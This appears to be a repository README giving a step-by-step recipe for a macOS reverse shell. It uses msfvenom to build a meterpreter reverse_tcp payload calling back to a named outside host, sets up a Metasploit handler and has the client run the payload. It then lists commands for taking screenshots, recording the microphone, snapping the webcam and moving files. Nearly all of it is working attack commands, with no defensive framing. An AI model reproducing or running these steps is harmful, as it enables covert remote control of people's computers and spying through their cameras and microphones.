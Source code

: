 # Reverse SSH (osx/x64)

### Ingredients


### Description

- SSH on remote pi

```
ssh [USER]@[HOSTNAME] -p [SSH_PORT]
ssh root@pipeter.asuscomm.com -p 22222
```

- Generate Payload

```
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=pipeter.asuscomm.com LPORT=4444 -f macho -o payload
chmod +x payload
```

- Send payload to client

```
i.e.
scp -P 22222 root@pipeter.asuscomm.com:payload ./
```


- Open msf

```
# getip (local ip)

msfconsole -q
use exploit/multi/handler
set payload osx/x64/meterpreter/reverse_tcp
set lhost $(getip)
set lport 4444
set ExitOnSession false
run -j
jobs
```

- run payload on client side

```
./payload
```

- On pi

```
sessions
sessions [SESSION_NUM]
i.e
sessions 1
help
```
### Cmd Example

#### Screenshot

```
screenshot
upload [SCREENSHOT_NAME]
shell
whoami
open [SCREENSHOT_NAME]
```

#### Sound

```
mic_list
mic_start [MIC_NUMBER]
mic_stop
play [WAV_FILE_NAME]
```

#### Webcam

```
webcam_list
webcam_snap [WEBCAM_NUMBER]
upload [SNAPNAME_NAME]
shell
whoami
open [SNAPNAME_NAME]
```

#### Transfer

```
upload [FILE]
download [FILE]
```

